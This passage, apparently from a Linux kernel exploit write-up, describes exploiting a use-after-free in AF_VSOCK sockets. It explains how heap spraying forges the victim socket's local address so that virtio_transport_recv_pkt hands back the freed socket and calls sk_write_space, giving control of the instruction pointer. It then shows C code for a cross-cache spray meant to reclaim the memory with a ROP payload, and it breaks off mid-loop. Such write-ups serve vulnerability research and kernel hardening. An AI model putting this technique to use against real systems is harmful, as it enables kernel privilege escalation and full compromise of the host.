 By heap spraying to set the UAF‐victim vsock’s `->local_addr` member to `{ .svm_cid = VMADDR_CID_LOCAL, .svm_port = VMADDR_PORT_ANY }`, and then passing the same `{ .svm_cid = VMADDR_CID_LOCAL, .svm_port = VMADDR_PORT_ANY }` as the argument to `connect()` on a separate vsock, the second conditional is satisfied and the victim vsock is returned. Afterwards, at the call to `sk->sk_write_space(sk);` inside `virtio_transport_recv_pkt()`, you can execute code at an arbitrary kernel address, thereby obtaining a RIP control primitive.

```c
void virtio_transport_recv_pkt(struct virtio_transport *t,
                               struct sk_buff *skb)
{
        struct virtio_vsock_hdr *hdr = virtio_vsock_hdr(skb);
        struct sockaddr_vm src, dst;
        struct vsock_sock *vsk;
        struct sock *sk;
        bool space_available;
        
        ...
        
        sk = vsock_find_connected_socket(&src, &dst);
        if (!sk) {
                sk = vsock_find_bound_socket(&dst);    // victim vsock
                if (!sk) {
                        (void)virtio_transport_reset_no_sock(t, skb);
                        goto free_pkt;
                }
        }
        
        ...

        if (space_available)
                sk->sk_write_space(sk);    // rip control
```

## Spraying the ROP payload using Cross-Cache

First, perform a cross-cache operation to move the victim vsock from the `AF_VSOCK` slab cache into the buddy allocator.

```c
        for (int i=0; i<FRONT_SLUB_CNT; i++)
                for(int j=0; j<OBJS_PER_SLAB; j++)
                        sprayed_vsock[spray_cnt++] = socket(AF_VSOCK, SOCK_SEQPACKET, 0);

        target1 = spray_cnt;

        for (int i=0; i<OBJS_PER_SLAB; i++)
                sprayed_vsock[spray_cnt++] = socket(AF_VSOCK, SOCK_SEQPACKET, 0);

        vsock = socket(AF_VSOCK, SOCK_SEQPACKET, 0);    // victim vsock
        if (vsock < 0)
                die("socket");

        target2 = spray_cnt;
        for (int i = 0; i < OBJS_PER_SLAB; i++)
                sprayed_vsock[spray_cnt++] = socket(AF_VSOCK, SOCK_SEQPACKET, 0);

        back = spray_cnt;
        
        ...
        
        for (int i = 0; i < target1; i++)
                close(sprayed_vsock[i]);

        for (int i = target1; i < target2; i++)
```